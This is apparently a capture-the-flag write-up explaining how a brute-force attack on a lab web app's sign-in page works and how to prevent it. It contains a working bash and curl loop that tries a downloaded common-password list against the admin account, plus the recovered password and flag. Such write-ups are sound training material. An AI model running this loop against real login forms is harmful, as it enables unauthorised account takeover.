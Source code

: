 # Brute Force Authentication Vulnerability

## Overview
The login form at `/?page=signin` is vulnerable to brute force attacks, allowing attackers to guess admin credentials with no rate limiting.

---

## How It Works

1. **Finding the Target:**  
   In a previous breach, we gained access to the members page, which revealed that "admin" is a valid username.
2. **Attack:**  
   Login requests are sent like this:
   ```
   /?page=signin&username=admin&password=<PASSWORD>&Login=Login
   ```
   A failed login shows "WrongAnswer.gif".

---

## Exploitation Methods

### ** Bash Script with Password List**

- Download a password list from GitHub:
  ```bash
  wget https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/xato-net-10-million-passwords-100.txt -O pwdlist.txt
  ```
- Use this brute force loop:
  ```bash
  for pwd in $(cat pwdlist.txt); do 
  resp=$(curl -s "http://IP_ADDRESS/?page=signin&username=admin&password=$pwd&Login=Login")
  if [[ "$resp" == *"The flag is :"* ]]; then 
    flag=$(echo "$resp" | grep -oP 'The flag is : \K[a-f0-9]{64}')
    echo "Success! Username: admin | Password: $pwd | Flag: $flag"
    break
  fi
done
  ```
- Password `shadow` is found to work.


---

## Result

- **Username:** admin  
- **Password:** shadow  
- **Flag:** `b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2`

---

## Prevention

1. **Account Lockout:** Temporarily disable accounts after multiple failures.
2. **Strong Password Policy:** Require complex, non-common passwords.
3. **MFA:** Add Multi-Factor Authentication for all users.
4. **CAPTCHA:** Use CAPTCHA after failed logins.
5. **Rate Limit:** Restrict login attempts per IP.
6. **Monitoring:** Alert on brute force patterns.

---

## Resources

- Password list source:  
  [https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/xato-net-10-million-passwords-100.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/xato-net-10-million-passwords-100.txt)

